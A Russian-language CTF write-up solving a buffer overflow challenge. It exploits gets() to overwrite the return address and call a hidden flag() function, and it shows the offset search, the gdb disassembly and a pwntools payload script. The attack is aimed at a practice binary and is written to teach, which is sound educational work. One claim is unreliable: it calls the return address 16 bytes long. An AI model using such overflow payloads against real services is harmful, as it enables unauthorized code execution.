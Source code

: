 # tired of nulls writeup

Нам дан код на C, использующий небезопасную функцию [gets()](https://www.c-cpp.ru/content/gets) и самописная функция flag(), которая выводит переменную окружения. 

Внимательно просмотрев код, можно заметить, что функция flag() не вызывается в нашем main, там вообще ничего не вызывается.

### Что же делать? 
Обратить внимание, что буфер заполняется через gets(). Нужно понять, как ее проэксплуатировать (подсказка: размер введенной строки пользователя может быть БОЛЬШЕ, чем размер нашего буфера).

Теперь узнаем адрес нашего [rip регистра](https://linux-doc.ru/programming/assembler/architecture/rip.php), чтобы понять, как это сделать, будем использовать скомпилированный файл 3asypwn и python. Суть в том, чтобы получить [SEGFAULT](https://ru.wikipedia.org/wiki/%D0%9E%D1%88%D0%B8%D0%B1%D0%BA%D0%B0_%D1%81%D0%B5%D0%B3%D0%BC%D0%B5%D0%BD%D1%82%D0%B0%D1%86%D0%B8%D0%B8), благодаря этому узнаем смещение до нашего rip регистра.

Делается это с помощью команды `python -c "print 'A'* OFFSET" | ./3asypwn`, изначально примем `OFFSET=64`, потому что буфер именно такого размера, и будем увеличивать его на 4 до тех пор, пока не получим нужную ошибку. Произойдет это при 72 сдвиге, значит следующие 16 байтов - rip. Их нужно изменить, но на какое значение? 

Настало время [gdb](https://ru.wikipedia.org/wiki/GNU_Debugger). С его помощью легко можно узнать адрес функции flag(), запускаем `gdb -q ./3asypwn` и прописываем `disas flag` - в первой строке получаем то, что искали `0x0000000000400607`.

### Вызовем функцию! 
Это можно сделать двумя способами:

1. bash: `python -c "print 'A'*72 + '\x00\x00\x00\x00\x00\x40\x06\x07'[::-1]" | ./3asypwn`
2. gdb: ```r -A < <(python -c "print 'A'*72 + '\x00\x00\x00\x00\x00\x40\x06\x07'[::-1]")```

Второй способ позволяет передать в gdb null-bytes (\x00), в отличие от способа передачи $(), который их игнорирует.

Функция отработала, отлично, теперь переходим к боевому стенду! Для удобства работы напишем python скрипт.

```python
from pwn import *

conn = remote('TARGET_IP', TARGET_PORT)

OFFSET = 72
payload = OFFSET * 'A' + '\x00\x00\x00\x00\x00\x40\x06\x07'[::-1] 
conn.sendline(payload)
print(conn.recv())
```

 Отправляем нашу полезную нагрузку и получаем флаг: **kxctf{3asy_p34sy_pwn_0r_n0t?}**
